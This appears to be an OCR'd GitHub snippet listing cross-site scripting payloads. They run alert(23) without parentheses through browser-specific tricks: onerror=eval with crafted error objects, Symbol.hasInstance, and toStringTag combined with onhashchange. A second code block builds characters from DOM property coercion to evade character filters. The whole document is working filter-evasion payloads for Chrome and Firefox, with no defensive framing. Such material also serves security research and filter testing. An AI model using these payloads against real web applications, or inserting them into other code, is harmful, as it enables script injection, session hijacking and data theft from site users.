 ```
<script/id=Uncaught>

// Chrome + Firefox

throw[onerror=eval][e=[x='+alert\x2823\x29']]=0[e.lineNumber=e.columnNumber=e.fileName=e.message=x]=e

</script>

<script>

// Firefox

onhashchange=setTimeout,HashChangeEvent.prototype[Symbol.toStringTag]='+alert\x2823\x29',location.hash=1

</script>

<script>

// Chrome + Firefox

Array.prototype[Symbol.hasInstance]=eval,'alert\x2823\x29'instanceof[]

</script>

<script>

// Chrome

[onerror=eval][TypeError.prototype.name='=/']['/-alert\x2823\x29//']

</script>


<script>

// Chrome

onerror=eval,ReferenceError.prototype.name='=alert\x2823\x29//',lol

</script>
```

---

```
elem=new Option
elem.classList.valueOf=String.prototype.charAt

elem.innerText=elem.outerHTML
elem.className=elem.innerHTML
amp=Object.__proto__.name+elem.classList

htag=new Text
elem.className=htag.nodeName
htag=Object.__proto__.name+elem.classList

elem.innerHTML=amp+htag+97
a=elem.innerText
elem.innerHTML=amp+htag+99
c=elem.innerText
elem.innerHTML=amp+htag+105
i=elem.innerText
```